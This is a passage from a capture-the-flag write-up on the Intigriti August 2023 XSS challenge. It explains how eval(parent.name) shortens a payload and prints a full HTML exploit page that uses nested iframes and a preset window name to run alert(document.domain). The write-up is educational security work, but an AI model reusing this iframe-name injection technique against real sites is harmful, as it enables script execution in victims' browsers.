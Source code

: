 While the previous payload `eval("'"+location)` is already quite short, for this challenge, there is an even shorter payload.

I learned from @DrBrix that you can use `eval(parent.name)` to shorten the length further, and this clever technique leverages iframes.

In the challenge page, a special name was set up to ensure it doesn't get overwritten, but we can utilize it's parent page. The page `https://challenge-0823.intigriti.io/` embeds `chanllenge/index.html` using an iframe, so using `parnent.name` allows us to access the name of `https://challenge-0823.intigriti.io/`.

Thus, @DrBrix's strategy is as follows: First, create a page named exp.html, add an iframe with the name set to the payload, and replace the location with `https://challenge-0823.intigriti.io`. 

The structure becomes:

```
- exp.html (top)
--- https://challenge-0823.intigriti.io (name: 'alert(1)')
------ https://challenge-0823.intigriti.io/challenge/index.html
```

Then you can use `frames[0].frames[0]` to access the innermost iframe and redirect it to the prepared URL, resulting in:

```
- exp.html (top)
--- https://challenge-0823.intigriti.io (name: 'alert(1)')
------ https://challenge-0823.intigriti.io/challenge/index.html?q=...
```

This way, you can use `parent.name` to access the adjusted name. The code looks like this:

``` html
<script>
setTimeout(() => {
frames[0].frames[0].location.replace('https://challenge-0823.intigriti.io/challenge/index.html?q=Math.random')
},3000)</script>
<iframe srcdoc='

<script>
name = "alert(document.domain)"
document.location = "https://challenge-0823.intigriti.io/"
</script>
'>
</iframe>
```

`eval(parent.name)` is the shortest payload I could find. The second shortest is `location=parent.name`.

### Empty Math.seeds

Previously, `Math.seeds.pop()` was used to clear the content, but this part can be further shortened!
